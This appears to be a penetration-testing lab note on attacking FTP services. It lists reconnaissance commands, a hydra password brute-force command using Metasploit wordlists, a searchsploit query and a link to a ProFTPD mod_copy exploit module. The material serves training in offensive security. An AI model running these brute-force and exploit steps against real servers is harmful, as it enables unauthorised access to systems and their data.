 ```yaml
---
description: '21'
---
```


# 2 - Exploiting FTP

### **Exploiting FTP**

* FTP (File Transfer Protocol) is a protocol that uses TCP port 21 and is used to facilitate file sharing between a server and client/clients.
* It is also frequently used a a means of transferring files to and from the directory of a web server.
* FTP authenticates requires a username and password combination. As a result, we can perform a brute-force attack on the FTP server in order to identify legitimate credentials.
* In some cases, FTP servers may be configures to allow anonymous access, which consequently allows anyone to the FTP server without providing legitimate credentials.



## **Practical Demonstration**

1 - Identify target ip address by `ifconfig` , target IP is the next ip after your own ip.

2 - `nmap -sV $ip` - nmap scan.&#x20;

3 - `ftp $ip` - we try anonymous login which appears to be disabled.

4 -  `ls -al /usr/share/nmap/scripts/ | grep ftp-*`  - List all the Nmap FTP-related scripts (can be used for other services too).

5 - `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt $ip -t 4 ftp` - Perform a brute force attack against the FTP service with Hydra. Login with the "sysadmin" cred.

6 - `get <fileName>` - Download a file onto the local machine.



`searchsploit ProFTPD` - List all exploits available for the request using the db of ExploitDB.

We can use the "mod copy [https://www.rapid7.com/db/modules/exploit/unix/ftp/proftpd\_modcopy\_exec/](https://www.rapid7.com/db/modules/exploit/unix/ftp/proftpd\_modcopy\_exec/)



